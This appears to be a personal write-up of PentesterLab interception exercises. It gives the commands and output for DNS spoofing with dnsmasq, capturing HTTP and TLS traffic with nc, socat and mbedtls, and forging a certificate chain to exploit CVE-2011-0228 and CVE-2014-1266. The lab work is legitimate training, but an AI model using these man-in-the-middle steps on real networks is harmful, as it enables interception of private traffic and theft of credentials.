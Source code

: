 ## Intercept Badge

### Intercept 01

Setting up `dnsmasq` on `$vps`

```
# https://linuxhint.com/dnsmasq_ubuntu_server/#:~:text=dnsmasq%20is%20available%20in%20the,and%20disable%20systemd%2Dresolved%20services.
$ sudo service dnsmasq stop
$ sudo dnsmasq -C dnsmasq.conf --no-daemon
$ dig @localhost test1.pentesterlab.com
$ host test1.pentesterlab.com 127.0.0.1
```

Intercepting DNS request

```
$ sudo tcpdump -i eth0 udp port 53
$ echo "18.191.42.249    mitm1.pentesterlab.com" > dnsmasq.hosts 
```

Intercepting HTTP request

```
$ sudo nc -lvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from 163-172-214-251.rev.poneytelecom.eu 48215 received!
GET / HTTP/1.1
Host: mitm1.pentesterlab.com
PTL_KEY: 4905e0a2-ed2d-4031-a31a-1221c95e488f
Connection: Close
```

### Intercept 02

- To create a simple TCP server with TLS support we need to create a certificate using openssl.
- It's worth automating this as you may do this often during a security assessment.

```
$ cat create_cert.sh

FILENAME=server
# Generate a public/private key pair:
openssl genrsa -out $FILENAME.key 1024
# Generate a self signed certificate:
openssl req -new -key $FILENAME.key -x509 -sha256 -days 3653 -out $FILENAME.crt
# Generate the PEM file by just appending the key and certificate files:
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
```

After intercepting DNS request, we intercept HTTPS requests

```
$ echo "18.191.42.249    mitm2.pentesterlab.com" > dnsmasq.hosts
$ sudo dnsmasq -C dnsmasq.conf --no-daemon
$ sudo nc -lvp 443 # nc doesn't do https
```

We need to use `socat` for https

```
$ sudo socat -v -v openssl-listen:443,reuseaddr,fork,cert=$FILENAME.pem,cafile=$FILENAME.crt,verify=0 -
> 2020/06/07 16:10:44.034462  length=114 from=0 to=113
GET / HTTP/1.1\r
Host: mitm2.pentesterlab.com\r
PTL_KEY: 3cfb4ed5-8529-4d17-998a-7ee3b6ebd2b1\r
Connection: Close\r
```

### Intercept 03

First get the DNS request and intercept HTTPS using that
```
$ sudo tcpdump -i eth0 udp port 53
$ echo "18.191.42.249    mitm3.pentesterlab.com" > dnsmasq.hosts
$ sudo dnsmasq -C dnsmasq.conf --no-daemon
```

Use the provided certificate to set up a TLS listener

```
# after downloading hackingwithpentesterlab.link.crt, GandiStandardSSLCA2.pem and hackingwithpentesterlab.link.key from pentesterlab.com
$ sudo socat openssl-listen:443,reuseaddr,fork,cert=hackingwithpentesterlab.link.crt,cafile=GandiStandardSSLCA2.pem,key=hackingwithpentesterlab.link.key,verify=0 -  
GET / HTTP/1.1
Host: mitm3.pentesterlab.com
PTL_KEY: 0ca2d12c-37f5-4292-a8b6-6a015bb52161
Connection: Close

```

### CVE-2011-0228

Validating a certificate's validity can be divided into multiple steps:

- Ensuring the current certificate did not expired and is valid for the current time (the issue date is not in the future)..
- Ensuring that the current certificate is signed by a valid certificate authority (CA).
- Ensuring that the parent certificate is a certificate authority.

These checks are performed for all certificates in the certificate chain to established a chain of trust. The first certificate (root CA) is embedded in your browser/system and is already trusted. If all certificates in the chain can be validated, the leaf certificate (last certificate in the chain) can be trusted.

This issue is located in the last step of the verification: "ensuring that the parent certificate is a certificate authority". 

```
$ openssl x509 -in hackingwithpentesterlab.link.crt -text
$ openssl genrsa -out mitm4.pentesterlab.com.key 2048 #fqdn=mitm4.pentesterlab.com
$ openssl req -new -sha256 -key mitm4.pentesterlab.com.key -out mitm4.pentesterlab.com.csr
```

Directory structure required to create certificate out of csr

```
$ mkdir -p demoCA/private demoCA/newcerts
$ cp hackingwithpentesterlab.link.key demoCA/private/cakey.pem
$ cp hackingwithpentesterlab.link.crt demoCA/cacert.pem
$ touch demoCA/index.txt
$ echo 01 > demoCA/serial
```

Signing the csr and creating the chain `myca.pem`

```
$ openssl ca   -config openssl.cnf -verbose  -out mitm4.pentesterlab.com.crt -infiles mitm4.pentesterlab.com.csr
$ cat mitm4.pentesterlab.com.crt hackingwithpentesterlab.link.crt GandiStandardSSLCA2.pem > myca.pem
```

Setting up the malicious server (openssl doesn't work on an invalid chain)

```
$ wget https://tls.mbed.org/download/mbedtls-2.2.1-apache.tgz
$ tar -zxf mbedtls-2.2.1-apache.tgz
$ cd mbedtls-2.2.1
$ apt-get update && apt-get upgrade #hygiene
$ apt-get install build-essential
$ make
```

Running the server

```
$ echo "18.191.42.249    mitm4.pentesterlab.com" > dnsmasq.hosts
$ sudo dnsmasq -C dnsmasq.conf --no-daemon
$ sudo ./mbedtls-2.2.1/programs/ssl/ssl_server

  . Loading the server cert. and key... ok
  . Bind on https://localhost:443/ ... ok
  . Seeding the random number generator... ok
  . Setting up the SSL data.... ok
  . Waiting for a remote connection ... ok
  . Performing the SSL/TLS handshake... ok
  < Read from client: 114 bytes read

GET / HTTP/1.1
Host: mitm4.pentesterlab.com
PTL_KEY: 80c8b7d1-1e4c-4fa8-8390-939b16edb127
Connection: Close
```

### CVE-2014-1266

[goto fail;](https://opensource.apple.com/source/Security/Security-55471/libsecurity_ssl/lib/sslKeyExchange.c?txt) also bypasses public key pinning

```
$ sudo tcpdump -i eth0 udp port 53 # the victim is trying to access pentesterlab.com so we download and send the cert to our vps
$ scp -i ~/u5.pem pentesterlab.com ubuntu@ec2-18-191-42-249.us-east-2.compute.amazonaws.com:/home/ubuntu/ptlab/intercept/cve-2014-1266
$ openssl s_client -connect pentesterlab.com:443 -showcerts > pentesterlab.pem # also change mbedtls as shown in the course intructions
$ sudo ./mbedtls-2.2.1/programs/ssl/ssl_server 

  . Loading the server cert. and key... ok
  . Bind on https://localhost:443/ ... ok
  . Seeding the random number generator... ok
  . Setting up the SSL data.... ok
  . Waiting for a remote connection ... ok
  . Performing the SSL/TLS handshake... ok
  < Read from client: 108 bytes read

GET / HTTP/1.1
Host: pentesterlab.com
PTL_KEY: e530e0a6-65f6-42a4-9147-a4386ee133e1
Connection: Close
```

